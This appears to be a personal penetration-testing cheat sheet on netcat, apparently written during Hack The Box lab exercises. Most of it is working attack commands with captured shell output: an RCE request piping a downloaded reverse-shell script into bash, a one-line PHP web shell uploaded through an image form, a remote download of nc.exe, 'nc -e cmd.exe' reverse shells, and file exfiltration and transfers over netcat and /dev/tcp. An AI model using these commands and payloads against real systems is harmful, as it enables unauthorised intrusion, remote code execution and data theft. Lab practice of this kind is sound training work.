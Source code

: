 # 💢 nc

Tags: #💢
Related to:
See also: [[powercat]], [[socat]]
Previous: [[Getting Started]], [[Footprinting]]

## Description

TCP/IP swiss army knife.

## Usage Examples

### Connect to a host

	nc localhost 6379

### Setup listener to receive reverse shell

	nc -lvnp 9001

Use RCE to execute reverse shell script.

	http://10.129.171.59/templates/protostar/htb.php?pwn=curl 10.10.17.201/reverse_shell.sh | bash

```nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.17.201] from (UNKNOWN) [10.129.171.59] 37656
bash: cannot set terminal process group (1542): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html/templates/protostar$
```

### Harvest banners from CIDR /24 range for given port-range

	for i in {0..255};
		do nc -nvw2 192.168.0.$i [port-range];
		done

### Leverage a PHP vulnerability to get a reverse shell

The registration form has the option to upload an image. Save the below code to shell.php and upload it using the form.

	vi shell.php

```
<?php echo exec($_GET["cmd"]);?>
```

Click on Submit to complete registration and upload the webshell. The web shell can be accessed at:

	proxychains firefox http://172.16.1.13/discuss/ups/shell.php?cmd=whoami	// dante-ws01\gerald

Let's upgrade to a proper shell. Upload netcat to target:

	ifconfig tun0										// local IP 10.10.16.52
	cd "/home/kali/HTB/Pro Labs/Dante/www"
	cp /usr/share/windows-resources/binaries/nc.exe .
	python3 -m http.server 80
	
	proxychains firefox http://172.16.1.13/discuss/ups/shell.php?cmd=powershell wget 10.10.16.52/nc.exe -o nc.exe

	nc -lvnp 9001	// locally
	
	proxychains firefox http://172.16.1.13/discuss/ups/shell.php?cmd=nc.exe -e cmd.exe 10.10.16.52 9001

```
Microsoft Windows [Version 10.0.18363.900]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\discuss\ups>
```

### Exfiltrate file

Let's get SERVER.EXE onto our running machine and see if we can extract some credentials from the binary:

	nc -lvnp 3333 > server.exe						// locally
	nc.exe 10.10.16.52 3333 < C:\Apps\SERVER.EXE	// remotely

### Transfer file

Transfer chisel to DANTE-WEB-NIX01:

	nc -lvnp 80 < chisel	// in my Dante/www
	bash -c "cat < /dev/tcp/10.10.16.52/80 > chisel"

	nc -lvnp 80 < nmap						// kali
	cat < /dev/tcp/10.10.16.12/80 > nmap	// target

# References
